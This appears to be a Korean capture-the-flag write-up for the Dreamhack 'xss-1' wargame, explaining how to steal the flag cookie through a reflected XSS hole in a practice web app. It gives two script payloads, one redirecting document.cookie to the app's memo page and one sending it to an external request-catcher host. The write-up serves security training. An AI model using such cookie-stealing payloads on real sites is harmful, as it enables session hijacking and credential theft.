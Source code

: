 # xss-1

## 문제

https://dreamhack.io/wargame/challenges/28

## 풀이

FLAG 변수를 따라가 보면 /flag path의 POST method에서 값을 얻을 수 있다.

이 값을 read_url함수에서 cookie에 저장한 후, /vuln path에서 query parameter를 return한다.

방법 1.

/memo path를 보면 memo query값을 가져와서 text에 추가하고 접속하면 보여주게 된다.

따라서 /flag path의 query string에 [memo query에 cookie를 넣고 /memo로 이동하는] 스크립트를 추가해서 POST를 날리면 된다.

- POST 명령을 날릴 수 있도록 버튼이 준비되어 있다.
```
http://127.0.0.1:8000/vuln?param=<script>location.href="/memo?memo="+document.cookie</script>
```

- 실행 화면
![image](https://github.com/GwangIl-Park/dreamhack-playground/assets/40749130/552786c0-816c-44e6-8ea0-7508daf2423f)

- /memo path에서 DH 확인 가능
![image](https://github.com/GwangIl-Park/dreamhack-playground/assets/40749130/44778022-f630-4d6c-a4c4-de7848d4ce4b)

방법 2.

서버를 띄워놓고 location.href에 서버 url을 넣어준다.

```
http://127.0.0.1:8000/vuln?param=<script>location.href="https://ymupogv.request.dreamhack.games/?flag="+document.cookie</script>
```

- 서버는 dreamhack에서 제공하는 tool을 사용했다.
![image](https://github.com/GwangIl-Park/dreamhack-playground/assets/40749130/1dd25ca4-ea8c-4644-a747-581984083c39)